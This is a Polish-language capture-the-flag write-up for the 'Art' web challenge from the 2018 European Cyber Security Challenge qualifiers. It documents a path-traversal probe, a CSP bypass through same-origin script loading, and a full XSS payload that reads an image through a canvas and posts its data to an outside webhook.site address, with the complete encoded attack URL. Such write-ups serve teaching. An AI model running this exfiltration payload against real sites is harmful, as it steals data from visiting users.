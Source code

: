 Art (web, 300 punktów)
===
*Eliminacje do European Cyber Security Challenge - Seniorzy*
***Jan Góra, 14.02.2018***

## Wstęp
Opis zadania jest tutaj bardzo istotny i wygląda on następująco:
> I've just created a cool service for presenting charts in Flask. Here's a test deployment hosted on my laptop. If you find any issue, just send me a link - I'll check if everything is fine. Flag is in /flag.
>
> https://web-art.ecsc18.hack.cert.pl
>
> Update 2018-06-25 21:15: Unfortunately my laptop is very slow and my browser hangs on websites with long addresses, so I asked my friend to create an extension for me that limits the url to 1024 characters. Now it works smoothly!

> Format flagi: ecsc{litery_cyfry_i_znaki_specjalne}.

Z samego opisu zadania można się już domyślać, że w zadaniu najprawdopodobniej pojawią się dwa ataki. Jeden typu LFI (Local File Inclusion) i drugi taki, który wymaga interakcji z adminem, np. XSS (Cross-Site Scripting), ponieważ flaga znajduje się w `/flag` oraz możliwe jest wysyłanie linków do admina.

## Szybka analiza
W atakach, które wymagają interakcji z adminem, ważne jest, aby uważnie prześledzić nagłówki odpowiedzi HTTP (HTTP Response Headers).

### Nagłówki HTTP
![](https://i.imgur.com/8yDLQsh.png)

Możemy zauważyć trzy istotne rzeczy:
- Nagłówek `X-XSS-Protection: 0` jest ustawiony na `0` co oznacza, że strona nie jest chroniona przed odbitym XSS (Reflected XSS Attack).
- Nagłówek `X-Frame-Options: deny` oznacza, że strona nie może zostać umieszczona w ramkach `iframe`.
- Nagłówek 'Content-Security-Policy' ustawia:
    - domyślny URL `default-src` dla wszystkich zasobów na 'none' co oznacza, że dostęp do wszystkich niewymienionych zasobów (w tym zasobów ładowanych `inline`) zostanie zablokowany.
    - `script-src 'self'` oznacza, że skrypty mogą być ładowane jedynie z tej samej domeny
    - `style-src 'self' 'unsafe-inline'` oznacza, że style moga być ładowane jedynie z tej samej domeny bądź jako elementy `inline`
    - `img-src 'self'` obrazki mogą być załadowane jedynie z tej samej domeny.

Nic ciekawego w nagłówkach już nie znajdziemy. Przejdźmy do analizy funkcjonalności strony.

### Wykresy
Da się zauważyć, że wykresy ładowane są w następujący sposób: https://web-art.ecsc18.hack.cert.pl/chart?chart=a. Skrypt przyjmuje parametr `chart` i po szybkim sprawdzeniu, adres https://web-art.ecsc18.hack.cert.pl/chart?chart=../../../../../../flag wywołuje komunikat `Forbidden`. Wygląda jak LFI. Faktycznie, spróbujmy adres https://web-art.ecsc18.hack.cert.pl/chart?chart=css/style.css w którym naszym oczom ukazuje się bardzo dziwny wykres. Na podstawie tego można już odszyfrować w jaki sposób wykresy są rysowane, ale to później.

![](https://i.imgur.com/mg0kVl0.png)

Co jeśli podamy nieistniejący plik? Spróbujmy https://web-art.ecsc18.hack.cert.pl/chart?chart=%3Cu%3Ehello%3C/u%3E. Dostajemy wiadomość, że plik nie został znaleziony oraz widać podkreślenie! To znaczy, że udało nam się wstrzyknąć kod HTML. Kod wygląda następująco:

![](https://i.imgur.com/GVYUyfI.png)

Spróbujmy więc: https://web-art.ecsc18.hack.cert.pl/chart?chart=%3Cscript%3Ealert(1)%3C/script%3E. Nic się nie zadziałało, a to ponieważ skrypty mogą być ładowane tylko z tej samej domeny i nie mogą być `inline` jak w tym przypadku!

![](https://i.imgur.com/kBfnhik.png)

A co gdybyśmy zrobili taką sztuczkę `chart?chart=<script src="chart?chart=alert(1);//">script&gt;`? Powinno zadziałać, ponieważ skrypt ładowany jest z tej samej domeny, sprawdźmy https://web-art.ecsc18.hack.cert.pl/chart?chart=%3Cscript%20src=%22chart?chart=alert(1);//%22%3E%3C/script%3E. Bingo!

![](https://i.imgur.com/rGWdX3b.png)

### Kontakt
Na podstronie `Contact` mamy formularz, w którym możemy wysłać adminowi odnośnik.

![](https://i.imgur.com/6CK5uoI.png)

Spróbujmy wysłać adminowi adres do naszej strony, aby zobaczyć co się stanie. Do wygenerowania adresu wykorzystałem stronę https://webhook.site, którą serdercznie polecam.

Widać, że admin odwiedza dowolny adres i nagłówki HTTP jakie przy tym udostępnia, wyglądają następująco:

![](https://i.imgur.com/lKJz76E.png)

## Plan
Wiemy już jakie są podatności, wiemy też, że nie możemy wyświetlić pliku flagi, ale może admin może? Nawet jeśli admin może wyświetlić flagę to, w jaki sposób możemy ją przesłać na nasz server? Z nagłówków nie wynika to jednoznacznie, ale każda próba dostania się do flagi poprzez `XMLHttpRequest` skończy się niepowedzeniem.

![](https://i.imgur.com/XtP3q8c.png)

Tak naprawdę jedyny sposób na wyświetlenie flagi to załączenie jej jako obrazek w domenie `web-art.ecsc18.hack.cert.pl`.

Okazuje się, że istnieje trick na przeczytanie pixeli z obrazka przy użyciu elementu `<canvas>` i wydrukowanie ich w formacie, np. `base64`.

![](https://i.imgur.com/SWDgUDk.png)

Teraz powstaje pytanie, w jaki sposób można wysłać dane na nasz server? Istnieje kilka technik bez używania `XMLHttpRequest`, które twórcy zadania przegapili. Ideą rozwiązania miało być odszyfrowanie działania wykresów, a przy tym odczytanie flagi poprzez napisanie odpowiedniego skryptu mieszcząc się w limicie 1024 znaków. Taką flagę można później przesłać na serwer, używając np.
```js
window.location='http://website.org/?f='+flag
```

Wysłanie obrazka w ten sposób się nie powiedzie ze względu na limit znaków. Próbowałem odczytywać flagę fragmentami i byłem nawet blisko rozwiązania, po czym znalazłem lepszy sposób, który autorzy przegapili. Wystarczy stworzyć formularz typu `POST` i wysłać flagę na server :)

Kompletny kod, jaki należy wysłać adminowi, wygląda więc następująco:
```js
d=document;
x=c=>d.createElement.call(d,c);

i=x('img');
i.src='https://web-art.ecsc18.hack.cert.pl/chart?chart=../../../../../../flag';
c=x('canvas');

i.onload = function(){
c.width=i.width;c.height=i.height;
c.getContext("2d").drawImage(i, 0, 0);
a=x('form');
b=x('input');
a.method='POST';
a.action = 'https://webhook.site/ca40349e-56c5-4610-bbfc-4942ebf46842';
b.name='f';
b.value=c.toDataURL("image/png");
a.appendChild(b);
d.body.appendChild(a);
a.submit();
};
```

Zakodowany URL wygląda następująco: [https://web-art.ecsc18.hack.cert.pl/chart?chart=%3Cscript%20src%3D%22chart%3Fchart%3D(()%253D%253E%257Bd%253Ddocument%253Bx%253Dc%253D%253Ed.createElement.call(d%252Cc)%253Bi%253Dx('img')%253Bi.src%253D'https%253A%252F%252Fweb-art.ecsc18.hack.cert.pl%252Fchart%253Fchart%253D..%252F..%252F..%252F..%252F..%252F..%252F..%252Fflag'%253Bc%253Dx('canvas')%253Bi.onload%253Dfunction()%257Bc.width%253Di.width%253Bc.height%253Di.height%253Bc.getContext(%25222d%2522).drawImage(i%252C0%252C0)%253Ba%253Dx('form')%253Bb%253Dx('input')%253Ba.method%253D'POST'%253Ba.action%253D'https%253A%252F%252Fwebhook.site%252Fca40349e-56c5-4610-bbfc-4942ebf46842'%253Bb.name%253D'f'%253Bb.value%253Dc.toDataURL(%2522image%252Fpng%2522)%253Ba.appendChild(b)%253Bd.body.appendChild(a)%253Ba.submit()%253B%257D%253B%257D)()%252F%252F%22%3E%3C%2Fscript%3E](https://web-art.ecsc18.hack.cert.pl/chart?chart=%3Cscript%20src%3D%22chart%3Fchart%3D(()%253D%253E%257Bd%253Ddocument%253Bx%253Dc%253D%253Ed.createElement.call(d%252Cc)%253Bi%253Dx('img')%253Bi.src%253D'https%253A%252F%252Fweb-art.ecsc18.hack.cert.pl%252Fchart%253Fchart%253D..%252F..%252F..%252F..%252F..%252F..%252F..%252Fflag'%253Bc%253Dx('canvas')%253Bi.onload%253Dfunction()%257Bc.width%253Di.width%253Bc.height%253Di.height%253Bc.getContext(%25222d%2522).drawImage(i%252C0%252C0)%253Ba%253Dx('form')%253Bb%253Dx('input')%253Ba.method%253D'POST'%253Ba.action%253D'https%253A%252F%252Fwebhook.site%252Fca40349e-56c5-4610-bbfc-4942ebf46842'%253Bb.name%253D'f'%253Bb.value%253Dc.toDataURL(%2522image%252Fpng%2522)%253Ba.appendChild(b)%253Bd.body.appendChild(a)%253Ba.submit()%253B%257D%253B%257D)()%252F%252F%22%3E%3C%2Fscript%3E), który zajmuje 831 znaków. Z jakiegoś powodu serwer nie chce wysłać obrazka flagi (być może zepsute zadanie), ale mogę zagwarantować, że to rozwiązanie powinno działać, rozwiązałem je podczas zawodów (wysyłanie innych zasobów działa).

Obrazek flagi wygląda następująco:

![](https://i.imgur.com/J9IZcQ1.png)

Wysokość każdego pixela to zakodowana litera w ascii przesunięta o 20 pixeli. Odczytując każdy pixel z osobna można odczytać, że flaga to **ecsc{X5S_is_a_art}**
